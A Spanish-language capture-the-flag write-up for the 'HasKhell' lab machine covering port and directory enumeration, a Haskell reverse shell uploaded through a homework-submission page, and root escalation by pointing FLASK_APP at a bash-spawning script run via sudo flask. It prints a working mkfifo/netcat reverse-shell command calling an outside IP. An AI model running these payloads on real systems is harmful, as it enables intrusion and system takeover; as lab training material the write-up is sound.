



# Writeup HasKhell

## Resumen

Es una máquina de dificultad media en la que trabajaremos enumeración de subdirectorios, subida de una revshell en Haskell y escalada de privilegios mediante Path Hijacking.

## Enumeración

Empiezo con un ping para saber qué sistema operativo usa.

```bash
ping -c 1 <vmip>
```

```
64 bytes from <vmip>: icmp_seq=1 ttl=62 time=27.0 ms
```

Con esto sabemos que es una máquina Linux (el TTL de 62 es típico de sistemas Linux).

Sigo enumerando los puertos con nmap.

```bash
nmap -sVC -p- --min-rate 5000 <vmip> -oG nmap
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
|_http-title: Homepage
|_http-server-header: gunicorn/19.7.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Puertos encontrados: `22/SSH` y `5001/Gunicorn`.

Como todavía no tenemos credenciales para el SSH, empiezo por el puerto 5001 (Gunicorn).

## Análisis del puerto 5001

Empiezo entrando a la web para hacer un reconocimiento inicial.



Veo que hay un enlace para ver nuestro primer trabajo (homework).



Es una página para entregar el trabajo. Sigo visitando la página donde dice que podemos subir nuestro trabajo:

```
http://<vmip>:5001/upload
```

La URL no se encuentra en el servidor, así que empiezo a enumerar directorios con gobuster.

```bash
gobuster dir -u http://<vmip>:5001 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
```

Encuentro un subdirectorio interesante: `submit`.

Al entrar veo que es para entregar los trabajos hechos, y con esto puede que se pueda subir una revshell.


## Explotación

Empiezo poniendo el listener.

```bash
nc -lvnp 4444
```

Subo la revshell a la web. Contenido de la revshell:

```haskell
module Main where

import System.Process

main = callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.146.38 4444 >/tmp/f"
```

Una vez subido, conseguimos acceso inicial como `flask`.

```
$ id
uid=1001(flask) gid=1001(flask) groups=1001(flask)
```

Con el usuario flask conseguimos la primera flag en `/home/prof/user.txt`.

## Escalada de privilegios

Empiezo con `sudo -l`.

```
$ sudo -l
sudo: no tty present and no askpass program specified
```

Lo descarto y sigo comprobando los binarios SUID.

```bash
find / -perm -4000 -type f 2>/dev/null
```

```
/snap/core/9066/bin/mount
/snap/core/9066/bin/ping
/snap/core/9066/bin/ping6
/snap/core/9066/bin/su
/snap/core/9066/bin/umount
/snap/core/9066/usr/bin/chfn
/snap/core/9066/usr/bin/chsh
/snap/core/9066/usr/bin/gpasswd
/snap/core/9066/usr/bin/newgrp
/snap/core/9066/usr/bin/passwd
/snap/core/9066/usr/bin/sudo
/snap/core/9066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9066/usr/lib/openssh/ssh-keysign
/snap/core/9066/usr/lib/snapd/snap-confine
/snap/core/9066/usr/sbin/pppd
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/bin/fusermount
/bin/umount
/bin/ping
/bin/mount
/bin/su
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/passwd
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/newuidmap
/usr/bin/sudo
/usr/bin/at
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
```

No hay nada interesante, así que sigo. Después de un rato buscando encuentro una clave SSH en el usuario `prof`.



Copio la clave privada, le doy los permisos necesarios e inicio sesión vía SSH con el usuario prof.

```bash
chmod 600 id_rsa
ssh -i id_rsa prof@<vmip>
```

Vuelvo a repetir el mismo flujo empezando por `sudo -l`.

```
User prof may run the following commands on haskhell:
    (root) NOPASSWD: /usr/bin/flask run
```

Vemos que podemos ejecutar como root `/usr/bin/flask run`, así que empiezo ejecutándolo para ver qué hace.

```
Error: Could not locate Flask application. You did not provide the FLASK_APP environment variable.
```

Veo que no encuentra la variable `FLASK_APP`, pudiendo permitir un ataque de Path Hijacking.

Empiezo creando el archivo.

```bash
nano /tmp/script.py
```

Contenido del script:

```python
#!/usr/bin/env python3
import pty
pty.spawn("/bin/bash")
```

Exportamos la variable:

```bash
export FLASK_APP=/tmp/script.py
```

Y ejecutamos el script con sudo:

```bash
sudo /usr/bin/flask run
```

Así conseguimos root.

```
root@haskhell:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Encontramos la última flag en `/root/root.txt`, dando por terminada la máquina.

## Flujo de ataque

1. **Enumeración:** se encuentran los puertos `22/SSH` y `5001/Gunicorn`.
2. **Análisis puerto 5001:** se encuentra vía gobuster el directorio `/submit`, en el que se pueden subir archivos Haskell que el servidor compila y ejecuta.
3. **Explotación:** se sube una revshell en Haskell al subdirectorio `/submit`, consiguiendo acceso inicial como `flask`.
4. **Escalada de privilegios:** se consigue la clave SSH del usuario `prof`, pudiendo iniciar sesión con él. Con el usuario `prof` se puede ejecutar `/usr/bin/flask run` como root, y al ejecutarlo falta la variable `FLASK_APP`, lo que permite un ataque de Path Hijacking con el que se consigue acceso como root.
